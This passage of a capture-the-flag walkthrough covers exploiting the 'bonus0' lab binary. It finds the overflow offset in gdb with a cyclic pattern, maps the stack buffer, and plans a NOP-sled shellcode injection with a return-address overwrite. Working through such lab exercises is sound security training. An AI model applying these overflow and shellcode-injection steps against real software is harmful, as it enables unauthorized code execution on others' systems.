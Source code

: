 ### 10. Finding the Overflow Offset
```bash
(gdb) run
Starting program: /home/user/bonus0/bonus0
 - 
01234567890123456789     # Exactly 20 chars to bypass null termination
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae
01234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa Aa0Aa1Aa2Aa3Aa4Aa5Aa

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()

(gdb) info registers
eip            0x41336141       0x41336141
```

**De Bruijn Pattern Analysis:**
```
Crash EIP: 0x41336141 = "a3A" in little-endian
Looking for "a3A" in the pattern: appears at position 9

Offset Discovery: 9 bytes from start of second input to EIP overwrite
```

### 11. Buffer Layout Understanding
```
Complete Buffer Layout Analysis:

First input:  [20 bytes no null term]
Space:        [1 byte: " "]  
Second input: [9 bytes padding][4 bytes EIP][7 bytes remaining]
Total:        20 + 1 + 20 = 41 bytes

Main buffer overflow:
[20 bytes][" "][9 pad][EIP overwrite][remaining data...]
                       ↑
                 Return address corruption point
```

## Shellcode Injection Strategy

### 12. Exploit Strategy Development
```
Two-Stage Shellcode Injection:

Stage 1 - First Input (20 bytes):
- NOP sled instructions (0x90) to create landing zone
- Placed in the large 4096-byte buffer during p() processing

Stage 2 - Second Input (20 bytes):  
- 9 bytes padding to reach return address
- 4 bytes return address pointing to NOP sled
- 7 bytes remaining padding

Memory Layout:
Large buffer: [NOP sled + shellcode] ← Return address points here
Main buffer:  [20 bytes NOP][" "][9 pad][ret addr][7 pad]
```

